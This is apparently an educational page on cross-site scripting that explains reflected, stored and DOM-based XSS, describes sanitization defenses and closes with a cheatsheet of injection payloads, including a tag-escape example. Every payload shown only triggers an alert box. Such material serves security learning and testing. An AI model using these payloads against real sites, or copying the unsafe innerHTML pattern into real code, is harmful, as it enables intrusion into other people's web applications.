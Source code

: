 # Cross-Site Scripting (XSS)

Cross-Site Scripting (XSS) is a security vulnerability in web applications that allows code to be injected into web pages viewed by users. It's a useful concept to understand for web security practice.

## Types of XSS

### Reflected XSS

This type of XSS occurs when an application includes user-supplied data from an HTTP request in its response without proper validation.

**Example:**
Imagine a search page that shows your search term.
`https://example.com/search?query=my-search-term`

If the site is not secure, a crafted link could include a script:
`https://example.com/search?query=<script>alert('XSS Proof of Concept')</script>`

When this link is visited, a simple alert box would appear, demonstrating the vulnerability.

### Stored XSS

Stored XSS happens when an application saves user input and later displays it to other users without sanitizing it.

**Example:**
A comments section on a blog. If a user can submit a comment containing a script, it gets stored on the server.

```html
<!-- A user's comment -->
<p>This is a helpful article.</p>
<script>alert('Stored XSS Proof of Concept');</script>
```
Anyone who views this comment would see an alert box, showing that the script was executed.

### DOM-based XSS

This vulnerability occurs within the page's Document Object Model (DOM). Client-side JavaScript takes data from an untrusted source and writes it into the DOM.

**Example:**
A page might use JavaScript to get a name from the URL and display it.
`var name = new URLSearchParams(window.location.search).get('name');`
`document.getElementById('welcome-message').innerHTML = "Hello, " + name;`

A crafted URL could execute a script:
`https://example.com/welcome?name=<img src=x onerror=alert('DOM XSS PoC')>`

The script runs when the `innerHTML` is updated, again triggering a simple alert.

## Common Payloads for Learning

These are simple payloads used to confirm if a vulnerability exists.
*   **Basic Alert:** `<script>alert('XSS')</script>`
*   **Image-based Alert:** `<img src=x onerror=alert('XSS')>`
*   **SVG-based Alert:** `<svg onload=alert('XSS')>`

## Understanding Input Sanitization

To prevent XSS, applications sanitize user input. In a CTF context, it's important to understand these defenses.
*   **Encoding:** Special characters are often encoded (e.g., `<` becomes `&lt;`).
*   **Tag Filtering:** Certain HTML tags like `<script>` may be removed by the application.
*   **Attribute Filtering:** Attributes like `onerror` or `onload` may be stripped from HTML tags.

Understanding how these sanitization methods work is key to learning about web security.

## Cheatsheet
https://portswigger.net/web-security/cross-site-scripting/cheat-sheet

```html
<script>alert('xss')</script>
```

```html
<img src='x' onerror="alert('xss')">
```

```html
<img src='x' onload="alert('xss')">
```

```html
<body onload="alert('xss')"/>
```

```html
<iframe src="javascript:alert('xss')">
```

```javascript
javascript:alert(3)
```

```javascript
';alert('xss');//
```

```html
<bla onfocus="alert(2)" tabindex="1">spider</bla>
```

```javascript
var message = `0 search results for '${alert(222)}'`;
```

Escape html tags

```html
<img src="/resources/images/tracker.gif?searchTerms=UserInput">
```

If you see a tag where user input is being placed into the tag there a chance to escape out of the tag.
In the example below `UserInput` is being replaced with xss injection `"><script>alert(3)</script>//`

```html
<img src="/resources/images/tracker.gif?searchTerms="><script>alert(3)</script>//">
```